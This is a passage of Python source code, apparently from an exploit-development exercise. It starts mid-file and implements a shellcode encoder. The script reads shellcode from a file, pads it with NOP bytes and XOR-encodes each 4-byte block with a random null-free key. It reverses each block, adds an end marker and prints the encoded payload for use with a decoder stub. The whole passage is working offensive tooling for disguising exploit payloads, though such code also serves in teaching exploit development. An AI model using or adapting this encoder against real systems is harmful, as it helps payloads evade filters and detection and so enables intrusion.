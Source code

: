 ```python
decoder_stub += "\xe4\xe8\xa4\xff\xff\xff"

# Seed PRNG (don't use this for real crypto)
random.seed()

if len(sys.argv) < 2:
        print('Usage: {name} [shellcode_file]'.format(name = sys.argv[0]))
        exit(1)

shellcode_file = sys.argv[1]

# Read shellcode from file in '\xFF\xEE\xDD' format
with open(shellcode_file) as f:
        shellcode_original = bytearray.fromhex(f.read().strip().replace('\\x',''))

# If shellcode is not 4 bytes aligned, adding padding bytes at the end
if len(shellcode_original) % 4 != 0:
        padding = 4 - (len(shellcode_original) % 4)
else:
        padding = 0
if padding:
        print('[+] Shellcode not 4 bytes aligned, adding {} \\x90 bytes of padding...'.format(padding))
        for i in range(0, padding):
                shellcode_original.append(0x90)

shellcode_encoded = bytearray()

# Process 4 bytes at a time
for i in range(0, len(shellcode_original), 4):
        xor_byte_good = False
        while(xor_byte_good == False):
                # Generate random XOR byte
                r = random.randint(1,255)
                # Check that resulting shellcode doesn't contain null bytes
                if (r ^ shellcode_original[i] != 0) and (r ^ shellcode_original[i+1] != 0) and (r ^ shellcode_original[i+2] != 0) and (r ^ shellcode_original[i+3] != 0):
                        xor_byte_good = True

        # Encoded shellcode contains XOR byte + next 4 bytes reversed
        shellcode_encoded.append(r)
        shellcode_encoded.append(shellcode_original[i+3] ^ r)
        shellcode_encoded.append(shellcode_original[i+2] ^ r)
        shellcode_encoded.append(shellcode_original[i+1] ^ r)
        shellcode_encoded.append(shellcode_original[i] ^ r)

# Add end of shellcode marker
shellcode_encoded.append(0x90)
shellcode_encoded.append(0x90)
shellcode_encoded.append(0xaa)
shellcode_encoded.append(0xaa)

# Print out the output
decoder_stub_hex = ''.join('\\x{}'.format(hex(ord(x))[2:]) for x in decoder_stub)
shellcode_original_hex = ''.join('\\x{:02x}'.format(x) for x in shellcode_original)
shellcode_encoded_hex = ''.join('\\x{:02x}'.format(x) for x in shellcode_encoded)
shellcode_encoded_nasm = ''.join('0x{:02x},'.format(x) for x in shellcode_encoded).rstrip(',')
print('[+] Original shellcode (len: {}): {}\n'.format(len(shellcode_original), shellcode_original_hex))
print('[+] Encoded shellcode (len: {}): {}\n'.format(len(shellcode_encoded), shellcode_encoded_hex))
print('[+] Encoded shell in NASM format: {}\n'.format(shellcode_encoded_nasm))
```